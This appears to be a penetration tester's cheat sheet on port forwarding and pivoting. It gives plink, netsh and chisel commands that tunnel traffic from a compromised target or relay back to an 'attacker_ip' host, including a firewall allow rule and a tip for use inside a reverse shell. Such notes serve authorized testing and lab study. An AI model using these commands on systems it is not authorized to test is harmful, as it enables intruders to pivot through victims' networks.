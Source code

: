 # Port Forwarding & Tunneling

## Tools

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
* [https://github.com/3proxy/3proxy](https://github.com/3proxy/3proxy)

## Readings

* [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
* [https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy](https://artkond.com/2017/03/23/pivoting-guide/#ssh-reverse-port-forwarding-w-3proxy)

## Port Forwarding

### Plink

Source: [http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html](http://the.earth.li/\~sgtatham/putty/0.53b/htmldoc/Chapter7.html)

Remote port forwarding, setup from target:

```
plink.exe -ssh -l kali -pw ilak -R attacker_ip:attacker_port:127.0.0.1:target_port attacker_ip
```

{% hint style="info" %}
When doing a first connection to a host, plink will ask whether to cache the host key or not. This step may not be seen in a typical reverse shell.

To avoid the interaction, pipe an "`echo y"`: `cmd /c echo y | plink.exe ...`
{% endhint %}

### Netsh

High privilege shell required.

Local port forwarding, setup from relay:

```
netsh interface portproxy add v4tov4 listenport=8888 listenaddress=relay_ip connectport=445 connectaddress=target_ip

# Configuring corresponding Windows firewall rule
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=relay_ip localport=8888 action=allow
```

## Socks Proxy (Chisel)

When trying to pivot through a Windows relay.

On attacker:

```
chisel server -p 4444 --reverse --socks5
```

On relay:

```
.\chisel.exe client <attacker ip>:4444 R:1080:socks
```

Don't forget to update /etc/proxychains4.conf:

```
socks5 127.0.0.1 1080
```
